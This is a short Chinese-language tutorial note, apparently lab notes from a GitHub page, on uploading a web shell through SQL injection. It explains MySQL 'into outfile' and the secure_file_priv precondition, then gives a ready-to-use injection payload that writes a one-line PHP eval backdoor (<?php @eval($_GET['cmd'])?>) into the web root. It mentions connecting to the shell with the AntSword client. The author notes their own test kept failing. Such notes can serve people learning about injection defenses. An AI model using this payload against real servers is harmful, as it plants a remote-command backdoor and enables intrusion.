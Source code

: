 # 利用SQL注入漏洞上传木马

## 一、原理

一般使用into outfile将select的结果写入指定目录中

### 前提

需要知道远程目录

需要有远程目录写的权限

需要数据库开启secure_file_priv服务

## 二、实践

### 开启secure_file_priv服务

在phpstudy搭建的环境中，需要在mysql的配置文件my.ini中添加secure_file_priv=

然后创建一个可执行的php文件

#### 写入

```
kobe' union select "<?php @eval($_GET['cmd'])?>",2 into outfile "var/www/html/index01.php"#
```

定点访问即可

写入成功后就可以用蚁剑进行连接，或者在url进行操作

这个我测试一直不行
